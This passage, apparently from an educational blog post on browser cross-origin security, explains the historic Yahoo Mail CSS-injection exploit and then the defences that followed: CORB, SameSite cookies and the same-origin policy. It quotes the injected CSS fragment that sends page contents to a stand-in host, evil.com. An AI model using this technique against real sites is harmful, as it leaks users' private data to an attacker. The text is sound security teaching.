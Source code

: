 This gets worse with a format like CSS, which has more capabilities, but doesn't immediately fail on parse errors. In 2009 it turned out Yahoo Mail was vulnerable to a fairly simple exploit. The attacker sends the user one email with a subject including `');}`, and later another with a subject including `{}html{background:url('//evil.com/?`. This means the user's mail page includes `{}html{background:url('//evil.com/?`, followed by some page source which includes their details and emails, followed by `');}`, which put together can form a valid chunk of CSS. Then, the attacker convinces the user to visit a page containing:

```html
<link rel="stylesheet" href="https://m.yahoo.com/mail" />
```

…which is loaded using `yahoo.com`'s cookies, the CSS parses, and sends private information to `evil.com`. Oh no.

# Locking things down

It's become pretty clear that the above was a mistake in the design of the web, so we no longer create APIs that can process these kinds of requests. Meanwhile, we've spent the last few decades patching things up as best we can:

- CSS from another origin (I'll get to a definition of that shortly) now needs to be sent with a CSS `Content-Type`. Unfortunately we can't enforce the same thing for scripts and images without breaking significant portions of the web. However…
- We prevent particular response types from another origin being loaded as image/script/etc., such as HTML, JSON, and XML (except SVG). This protection is called [CORB](https://fetch.spec.whatwg.org/#corb).
- More recently, we don't send cookies along with the request from site-A to site-B, unless site-B has opted-in using the [`SameSite` cookie attribute](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Set-Cookie/SameSite). Without cookies, the site generally returns the 'logged-out' view, without private data.
- Firefox and Safari go a step further, and try to fully isolate sites, although how this works is currently pretty different between the two.

## The same-origin policy

Back in 1995, Netscape 2 landed with two amazing new features: LiveScript (you probably know this better as 'JavaScript'), and HTML frames. Frames let you embed one page in another, and LiveScript could interact with both pages.

Netscape realised that this presented a security issue, so they decided that cross-frame scripting would only be allowed if both pages had the same _origin_.

<style>
.origin-example {
  display: grid;
  grid-template-columns: max-content max-content;
}
.origin {
  grid-area: 1 / 1;
  color: #ff824a;
}
.path {
  grid-area: 1 / 2;
}
.origin-label {
  grid-area: 2 / 1;
  text-align: center;
  display: grid;
  grid-template-columns: 1fr max-content 1fr;
  align-items: top;
  gap: 0.3em;
  color: #ff824a;
}
.origin-label::before,
